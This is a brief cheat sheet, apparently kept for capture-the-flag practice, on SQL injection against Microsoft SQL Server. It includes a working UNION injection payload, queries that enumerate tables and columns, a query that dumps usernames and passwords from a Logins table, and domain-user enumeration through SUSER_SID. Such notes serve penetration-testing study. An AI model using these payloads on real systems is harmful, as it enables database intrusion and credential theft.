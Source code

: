 # MSSQL Injection

some hit for mssql injection

`LIMIT` function need to know the columns name.

Ref: https://www.sqlservertutorial.net/sql-server-basics/sql-server-offset-fetch/

```mssql

# change OFFSET x ROWS
SELECT username FROM mydb..mytable ORDER BY username OFFSET 1 ROWS FETCH NEXT 1 ROWS ONLY

```

## Like mysql function name 

`GROUP_CONCAT` --> `STRING_AGG`


## List Tables

```mssql
# NO WORK
SELECT STRING_AGG(name,",") FROM master..sysobjects WHERE xtype = 'U'

# WORK
SELECT STRING_AGG(name,',') FROM master..sysobjects WHERE xtype = 'U'

# Example

q=*' union select 1,   (select STRING_AGG(concat(name,':',id),'|') FROM streamio..sysobjects WHERE xtype = 'u')   ,3,4,5,6; -- -

```


## List Columns

Reference: https://www.mytecbits.com/microsoft/sql-server/list-of-column-names

```mssql
SELECT STRING_AGG(NAME,',') FROM SYS.COLUMNS WHERE object_id = OBJECT_ID('Hub_DB..Logins')

```
## Example

```mssql
# Dump id,username,password from HTB_DB..Logins
SELECT STRING_AGG(concat(id,',',username,',',password),'|') FROM Hub_DB..Logins
```

## It also can Enum user

```mssql
$ SELECT DEFAULT_DOMAIN()
MEGACORP
$ SELECT master.dbo.fn_varbintohexstr(SUSER_SID('MEGACORP\Administrator'))
0x0105000000000005150000001c00d1bcd181f1492bdfc236f4010000


```

See: https://book.hacktricks.xyz/pentesting-web/sql-injection/mssql-injection#fn_xe_file_target_read_file
